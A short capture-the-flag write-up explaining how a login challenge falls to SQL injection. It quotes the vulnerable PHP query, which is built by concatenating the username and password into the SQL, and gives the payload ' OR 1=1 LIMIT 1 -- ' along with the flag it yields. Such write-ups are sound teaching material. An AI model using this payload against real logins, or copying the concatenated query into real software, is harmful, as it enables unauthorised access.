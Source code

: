 Looking at the php file provided to us, the only important line for our matters is:
**$query = "SELECT * FROM users where username='$username' AND password='$password'";**

if the  variables username and password evaluate to true, then the flag is presented to us.
SQL injection focuses on submitting condition that evaluates to true, and thus get the information
without the correct credentials.
Therefore, when prompted for the username and password on: http://stuyctf.me/php/SIMPLE-SQL-INJECTION/index.php
I entered:

Username: ' OR 1=1 LIMIT 1 -- '
Password: ' OR 1=1 LIMIT 1 -- '

Basically if they enter the correct username and password OR 1 equals 1 which is always true, then return true.

We then get redirected to a page which reads:

**stuyCTF Login Status:**

**Logged in!**

**Your flag is stuyctf{sql_injections_are_fun_but_also_the_biggest_web_problem}**

Flag: stuyctf{sql_injections_are_fun_but_also_the_biggest_web_problem}

